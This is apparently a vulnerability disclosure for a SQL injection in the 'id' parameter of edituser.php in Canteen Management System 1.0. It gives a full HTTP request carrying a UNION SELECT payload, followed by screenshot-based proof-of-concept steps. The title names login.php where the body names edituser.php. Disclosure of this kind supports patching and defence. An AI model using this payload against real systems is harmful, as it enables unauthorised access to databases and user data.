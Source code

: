 # Canteen Management System - edituser.php 'id' SQL inject

#### Exploit Title: Canteen Management System - login.php 'id' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Software Link:https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Version: Canteen Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Canteen Management System does not filter the content correctly at the "edituser.php /id" parameter, resulting in the generation of SQL injection.

#### Payload used:

```
GET /edituser.php?id=-7956'%20UNION%20ALL%20SELECT%20NULL,md5(1),NULL,NULL--+ HTTP/1.1
Host: 192.168.67.10:8091
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.10:8091
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.10:8091/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

#### Proof of Concept

1、After logging in, use the Edit User function

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/edituserhtml.png)

2、Looking at the source code, it is found that the id field is directly brought into the SQL statement query without filtering

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/editusersouce.png)



3、

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/edituserburp.png)

4、The results can be directly echoed on the page by constructing correct SQL statements

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/edituserresult.png)

5、Through testing with the tool, it is found that there are other injection methods such as blind SQL time injection.

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/images\editusersqlmap.png)

